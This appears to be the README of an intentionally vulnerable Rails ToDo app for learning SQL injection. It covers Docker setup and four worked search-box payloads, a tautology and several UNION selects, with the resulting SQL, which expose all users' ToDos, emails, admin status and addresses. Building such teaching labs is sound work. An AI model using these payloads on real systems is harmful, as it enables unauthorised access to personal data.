 # SQL Injection

## Description

This is a ToDo app. One can sign up and create their own ToDos and find them in their ToDo list. This app lets you perform SQL injection in the ToDo search Bar. While, a secure code is available (public/secured_code.txt), you can implement it to see the prevention of SQL injection.

## Build docker images

```bash
docker-compose build
```

(Note: open the desktop docker as you run the commands; easy to debug if you have any trouble - optional)

## Run the application

```bash
docker-compose up -d
```

Run the sql_injection_web_1 container

## Load CSS

```bash
docker exec -it sql_injection_web_1 bash
rails tailwindcss:watch
```

## Open application in browser and perform below attacks

```bash
http://<localhost or server-ip>:3000
```

## Signup to the application

Create user(s)

## Seed Data

```bash
Ctrl + c
rake db:seed
rails tailwindcss:watch
```

`rake db:seed` creates users with their respective tasks

## For Development

Once you clone the repository, perform the following commands:

Setup the database:  

- `rake db:create`
- `rake db:migrate`

Access the [localhost](http://localhost:3000/) and sign up.  
If you'd want to create users and their ToDos, run `rake db:seed`  
Incase your css doesn't load, run `rails tailwindcss:watch`

## SQL injection queries

Various ways to perform SQL injection:  

**ATTACK 1: Listing ToDos of all users**  
_Approach_  
The two hypen characters -- prevents anything after them in the query from being run. Thus, on inputing the below string in the search box  
`ToDo name' or 1=1) --`  
_Result_  
the query executes the following SQL:  
`ToDo Load (0.5ms)  SELECT "to_dos".* FROM "to_dos" WHERE (name = 'ToDo name' or 1=1) --' and user_id = '1')`  
While only the current user's ToDos are to be listed, as anything after -- is ignored, the SQL query **results in displaying ToDos of all the users from the database!**

**ATTACK 2: Displaying all users**  
_Approach_
The search field wasn’t even designed to return users, but we can make it happen.  
`ToDo name') union select 1, email,'', null, null, null, null from users --`
_Result_  
In this app, the above query executes the following SQL:  
`ToDo Load (2.7ms)  SELECT "to_dos".* FROM "to_dos" WHERE (name = 'ToDo name') union select 1, email,'', null, null, null, null from users --' and user_id = '1')`  
What happens is the union with the users table, adding those records to what is displayed. **This SQL query results in displaying all the users from the database!**  

**ATTACK 3: Find which users are admins**  
_Approach_  
`ToDo name') union select 1, email,'', null, null, null, null from users where admin = true --`  
_Result_  
the query executes the following SQL:
`ToDo Load (2.5ms)  SELECT "to_dos".* FROM "to_dos" WHERE (name = 'ToDo name') union select 1, email,'', null, null, null, null from users where admin = true --' and user_id = '1')`  
**Thus, displaying all the admins from the database!** As an attacker, now one knows the admins. As admins are likely well-trusted within the company, if ones wants to pretend to be someone over the email or phone to gain more data/information, it’s a great place to start.

**ATTACK 4: Get user addresses or any such attribute**
_Approach_  
`ToDo name') union select 1, email, address, null, null, null, null from users --`  
_Result_  
the query executes the following SQL:  
`ToDo Load (0.6ms)  SELECT "to_dos".* FROM "to_dos" WHERE (name = 'ToDo name') union select 1, email, address, null, null, null, null from users --' and user_id = '1')`  
**Thus, displaying an extra column which displays all the users' addresses!** This could be very bad, as any similar attribute such as credit card details e.t.c sensitive information can be accessed.
